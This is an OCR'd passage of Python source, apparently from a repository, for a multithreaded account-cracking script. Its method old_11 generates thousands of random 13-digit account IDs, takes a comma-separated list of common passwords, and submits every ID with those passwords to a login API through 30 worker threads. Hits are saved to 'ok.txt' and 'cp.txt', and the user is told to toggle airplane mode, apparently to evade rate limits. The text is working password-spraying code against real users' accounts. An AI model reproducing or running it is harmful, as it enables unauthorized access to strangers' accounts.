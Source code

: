 					coeg.submit(self.api, user, listpass.split(","))

			exit("\n\n%s [#] CRACK COMPLETE..."%(G))

		except Exception as e:exit(str(e))

		

	def old_11(self):

		x = 1111111111111

		xx = 9999999999999

		idx = "50000"

		idx = random.choice(["1", "2", "3", "4", "5", "6", "7", "8", "9"])

		limit = int(input("\033[0;92m [+] ENTER LIMIT \033[0;91m(50000 MAX): \033[0;92m"))

		if (limit)>10000:

			exit("\n%s [!] DON'T CROSS THE LIMIT BRO :)"%(R))

		try:

			for n in range(limit):

				_ = random.randint(x,xx)

				__ = idx

				self.id.append(__+str(_))

			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 

			with ThreadPoolExecutor(max_workers=30) as coeg:

				print("\n%s [!] USE %s, %s(COMMA)%s FOR SEPARATOR "%(Y,G,B,Y))

				print("%s EXAMPLE : %s123456,1234567,123456789"%(Y,G))  

				listpass = input("%s [?] ENTER PASSWORD :%s "%(Y,G))

				if len(listpass)<=5:

					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))

				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(Y,listpass))

				print("\n%s [+] OK RESULTS SAVED IN -> ok.txt"%(G))

				print("%s [+] CP RESULTS SAVED IN -> cp.txt"%(Y))

				print("%s [!] IF NO RESULT TURN ON AIRPLANE MODE 5 SECONDS\x1b[0m\n"%(R))

				for user in self.id:

					coeg.submit(self.api, user, listpass.split(","))

			exit("\n\n%s [#] CRACK COMPLETE..."%(G))

		except Exception as e:exit(str(e))

		

		
